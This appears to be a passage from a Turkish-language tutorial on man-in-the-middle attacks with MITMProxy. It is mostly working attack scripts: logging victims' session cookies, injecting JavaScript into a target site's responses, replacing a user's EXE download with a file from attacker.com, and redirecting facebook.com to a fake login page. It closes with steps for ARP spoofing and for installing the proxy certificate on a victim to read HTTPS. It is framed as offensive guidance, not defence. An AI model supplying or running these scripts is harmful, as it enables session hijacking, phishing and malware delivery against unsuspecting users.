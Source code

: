 📌 Saldırı 2: Kullanıcının Çerezlerini (Cookies) Çalma
Eğer bir kullanıcının oturum çerezlerini çalmak isterseniz:
python
from mitmproxy import ctx

def request(flow):
 cookies = flow.request.headers.get("Cookie", "")
 if cookies:
 ctx.log.info(f"Çerezler: {cookies}")

📌 Bu betik, tüm çerezleri MITMProxy loglarına kaydeder.

📌 Saldırı 3: Web Sayfasına Zararlı JavaScript Ekleme (XSS)
Bir web sitesine zararlı JavaScript kodu enjekte edebilirsiniz:
python
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", "alert('XSS HACKED');")

📌 Bu betik, "target.com" yanıtına XSS saldırısı enjekte eder.

📌 Saldırı 4: Kullanıcının İndirdiği Dosyaları Değiştirme
Bir kullanıcının indirdiği EXE dosyalarını değiştirebilirsiniz:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if "example.com/software.exe" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/malware.exe"

📌 Bu betik, hedef kullanıcının indirdiği dosyayı saldırganın zararlı dosyasıyla değiştirir.

📌 Saldırı 5: Kullanıcıyı Farklı Bir Siteye Yönlendirme
MITMProxy kullanarak tüm trafiği saldırganın sitesine yönlendirebilirsiniz:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if "facebook.com" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/fake-facebook"

📌 Bu betik, Facebook giriş sayfasını sahte bir siteye yönlendirir.

4. MITMProxy ile Trafiği İzleme ve Manipüle Etme
Saldırıları manuel olarak gerçekleştirmek için MITMProxy’nin GUI aracını kullanabilirsiniz.
Başlatmak için:
bash
sudo mitmweb --mode transparent
Ardından http://127.0.0.1:8081 adresine giderek trafik akışını manuel olarak düzenleyebilirsiniz.

5. Sonuç
MITMProxy kullanarak MITM saldırıları yapmak için: ✔ Ağ trafiğini MITMProxy’ye yönlendirin (ARP Spoofing, iptables)
✔ MITMProxy sertifikasını kurbana yükleyerek HTTPS trafiğini okuyun
✔ İstekleri ve yanıtları manipüle ederek saldırılar gerçekleştirin
